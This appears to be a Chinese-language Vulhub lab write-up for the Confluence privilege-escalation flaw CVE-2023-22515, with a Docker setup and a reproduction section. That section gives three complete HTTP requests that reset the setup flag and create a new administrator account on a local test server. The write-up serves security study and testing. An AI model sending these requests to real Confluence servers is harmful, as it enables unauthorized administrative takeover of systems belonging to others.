# Confluence 属性覆盖导致权限绕过漏洞 CVE-2023-22515

## 漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统。

2023年10月4日，Atlassian官方发布了对于CVE-2023-22515漏洞的补丁。这个漏洞是由属性覆盖导致，利用该漏洞攻击者可以重新执行Confluence安装流程并增加管理员账户。

该漏洞不影响8.0.0以前的版本。

参考链接：

- https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html
- https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis

## 环境搭建

Vulhub 执行如下命令启动一个Confluence Server 8.5.1：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8090`即可进入安装向导，参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。

![image-20231018183534534](images/image-20231018183534534.png)

## 漏洞复现

首先，最主要的请求就是覆盖目标Confluence服务器中的`bootstrapStatusProvider.applicationConfig.setupComplete`属性：

```
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

然后，你就可以使用如下请求创建一个新的管理员账户`vulhub`：

```
POST /setup/setupadministrator.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
X-Atlassian-Token: no-check

username=vulhub&fullName=vulhub&email=admin%40vulhub.org&password=vulhub&confirm=vulhub&setup-next-button=Next
```

发送如下请求完成安装步骤：

```
POST /setup/finishsetup.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
X-Atlassian-Token: no-check
```

最后，直接使用新的`vulhub`账户（密码同样是`vulhub`）来登录Confluence，可见新的管理员已成功增加：

![image-20231018183608388](images/image-20231018183608388.png)